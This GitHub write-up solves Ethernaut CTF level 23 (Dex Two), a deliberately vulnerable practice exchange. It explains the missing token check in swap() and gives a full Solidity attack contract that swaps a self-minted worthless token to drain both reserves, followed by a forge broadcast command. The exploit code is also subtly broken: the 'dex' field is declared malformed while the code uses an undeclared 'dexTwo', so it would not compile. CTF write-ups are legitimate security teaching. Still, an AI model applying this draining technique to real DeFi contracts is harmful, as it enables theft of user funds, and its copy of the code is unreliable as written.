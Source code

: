 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/23-dexTwo.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 23 - Dex Two</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 23 - Dex Two](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-23-dex-two)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Goals

<img src="../assets/requirements/23-dexTwo-requirements.webp" width="800px"/>

## The hack

The DexTwo contract is interesting. It is almost exactly the same as the previous one, but this time our goal is to drain the reserves of <b>both</b> tokens! In reality, this is even simpler... First, let's try to find the differences between the two contracts.

In fact, there is only 1 difference, in the `swap()` function:

```javascript
function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }
```

The following requirement has been removed:

```javascript
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```

So basically, the contract is no longer validating the tokens that are being swapped. This means that we can swap any token for any other token, and the contract will not complain. Good for us! This is a huge vulnerability, and we can use it to drain the reserves of both tokens very easily, and for free :)

Let's create a new useless token that will be used as `tokenIn` to feed the DexTwo contract while we empty its `tokenOut` reserves. Something simple inherited from OpenZeppelin's ERC20 contract will do just fine:

```javascript
contract FreeToken is ERC20 {
    constructor(address _dexterTwo) ERC20("FreeToken", "FTK") {
        _mint(_dexterTwo, 10000000 * 10 ** decimals());
    }
}
```

Next, we have to make sure everything is set correctly, and that all approvals are in place. After that, we send 100 FreeToken to the DexTwo contract to simulate an existing reserve. And we will finally be able to drain the reserves of both tokens in exchange for our FreeToken!

- The first swap will be of 100 FreeTokens for `token1`. This will empty the reserves of token1.
- The second swap will be of 200 FreeTokens for `token2`. This will empty the reserves of `token2`.

## Solution

Here is the full solution:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

interface IDexTwo {
    function token1() external returns (address);
    function token2() external returns (address);
    function swap(address from, address to, uint256 amount) external;
    function approve(address spender, uint256 amount) external;
    function balanceOf(
        address token,
        address account
    ) external view returns (uint256);
}

contract FreeToken is ERC20 {
    constructor(address _dexterTwo) ERC20("FreeToken", "FTK") {
        _mint(_dexterTwo, 10000000 * 10 ** decimals());
    }
}

contract DexterTwo {
    IDexTwo private immutable dex = IDexTwo;
     address private immutable token1;
    address private immutable token2;
    address private freeToken;

    constructor(address _dexTwo) {
        dexTwo = IDexTwo(_dexTwo);
        token1 = dexTwo.token1();
        token2 = dexTwo.token2();
    }

    function setFreeToken(address _freeToken) public {
        freeToken = _freeToken;
    }

    function attack() public {
        dexTwo.approve(address(dexTwo), type(uint256).max);
        IERC20(freeToken).approve(address(dexTwo), type(uint256).max);
        IERC20(freeToken).transfer(address(dexTwo), 100);

        dexTwo.swap(freeToken, token1, 100);
        dexTwo.swap(freeToken, token2, 200);

        require(
            IERC20(token1).balanceOf(address(dexTwo)) == 0 &&
                IERC20(token2).balanceOf(address(dexTwo)) == 0,
            "Hack failed!"
        );
    }
}
```

You can run the script with the following command:

```bash
forge script script/23_DexTwo.s.sol:PoC --rpc-url sepolia --broadcast --watch
```

## Takeaway

- Always validate the sensitive inputs properly.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
